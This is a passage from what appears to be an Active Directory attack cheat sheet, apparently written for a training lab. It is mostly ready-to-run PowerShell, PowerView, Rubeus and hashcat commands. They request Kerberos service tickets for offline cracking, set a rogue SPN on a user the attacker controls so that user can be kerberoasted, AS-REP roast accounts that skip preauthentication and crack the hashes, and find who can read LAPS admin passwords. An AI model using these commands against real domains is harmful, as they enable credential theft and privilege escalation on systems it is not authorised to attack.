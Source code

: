 Request tickets using .NET classes (need mimikatz to extract the ticket)(identify targets with PowerView, ADModule or Rubeus):  

```powershell
Add-Type –AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList ‘MSSQLSvc/jefflab-sql02.jefflab.local:1433’
```

**Set SPN:**  

```powershell
# See if any of our current user's groups have any ACLs that allow a genAll or genWrite over a target user, e.g.:
# use powerview and match on our current users' groups
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}

# See if the user already has a SPN:
# Using PowerView
Get-DomainUser -Identity <target-user> | select serviceprincipalname
# Using ActiveDirectory module:
Get-ADUser -Identity <target-user> -Properties ServicePrincipalName | select ServicePrincipalName

# Set the target users spn:
# Powerview
# Set a SPN for the user (unique for the domain)
Set-DomainObject -Identity <target-user> -Set @{serviceprincipalname='<domain>/myspnX'}
# Using ActiveDirectory module:
Set-ADUser -Identity <target-user> -ServicePrincipalNames @{Add='<domain>/myspnX'}

# Then kerberoast this user
```

**AS-REPRoast**  

```powershell
# powerview and rubeus

Get-DomainUser -PreauthNotRequired

.\Rubeus.exe asreproast /format:hashcat /outfile:asrep.hash /user:asrep.user

hashcat -m 18200 -a 0 asrep.hash passwords.txt
```


## Domain Privesc - LAPS (Local Administrator Password Solution)

Find users who can read the password in clear text machines in OUs:  

```powershell
# PowerView
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

# To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text:
# Using Active Directory module - See Get-LapsPermissions.ps1
# https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-management-powershell
# Using LAPS module (can be copied across machines):
Import-Module C:\AdmPwd.PS.psd1 # https://www.powershellgallery.com/packages/AdmPwd.PS/6.3.1.0
Find-AdmPwdExtendedRights -Identity <OU Name> # legacy # Look for groups listed in "ExtendedRightHolders"
Find-LapsADExtendedRights -Identity <OU Name> # new # Look for groups listed in "ExtendedRightHolders"
```
